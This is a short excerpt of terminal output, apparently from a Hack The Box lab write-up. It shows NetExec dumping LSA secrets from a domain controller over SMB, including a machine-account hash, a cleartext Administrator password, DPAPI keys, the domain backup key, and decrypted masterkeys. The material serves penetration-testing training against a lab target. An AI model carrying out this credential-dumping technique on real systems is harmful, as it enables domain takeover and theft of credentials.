SMB         10.129.200.23   445    DC01             TOMBWATCHER\DC01$:plain_password_hex:9e740924d8a645a9bb62441522ffb3e42ed3c26ba992a6aeb1c9a825827d324d7f50d3b829ebcb4ec51089ac3396b66bb1b385c67c7209f1974c189ce542f7579b7e5c654071289f3cfee09f026bbaf3f23510f1e05cb8ba42920c80f98ef5eb905cb03977ea7e81ece0a829d5a860a8b677122d331ac4e9f3ce943a1bb76f493bfb6fa6446283dd641a54c9ba8f9f3b0cba88aed10112eb8bf92369bc391190240cf261f25b6600fd6c9d2ad9140d3958a152b20e39db2b3d22818093ce4ef6525a2def5fd99742dc733acf5b1dbe0361b105ff18e704256f6108bae75ec3a81d434cbb2c66a07d226ebd768b2892c0                                                                                                                                           
SMB         10.129.200.23   445    DC01             TOMBWATCHER\DC01$:aad3b435b51404eeaad3b435b51404ee:ca045fb171f8b565d6e772b0a75c6f5f:::
SMB         10.129.200.23   445    DC01             TOMBWATCHER\Administrator:HTB_@cad3my_lab_W1n19_r00t!@0
SMB         10.129.200.23   445    DC01             dpapi_machinekey:0xf04214e8dd3e91c19d04267e1dd8feba11e993c4
dpapi_userkey:0xb16bec62c57b1ba254993bcc17b51d8be38f05a6
SMB         10.129.200.23   445    DC01             [+] Dumped 7 LSA secrets to /home/kali/.nxc/logs/lsa/DC01_10.129.200.23_2025-07-02_145324.secrets and /home/kali/.nxc/logs/lsa/DC01_10.129.200.23_2025-07-02_145324.cached
SMB         10.129.200.23   445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.200.23   445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.129.200.23   445    DC01             [+] Got 6 decrypted masterkeys. Looting secrets...
```
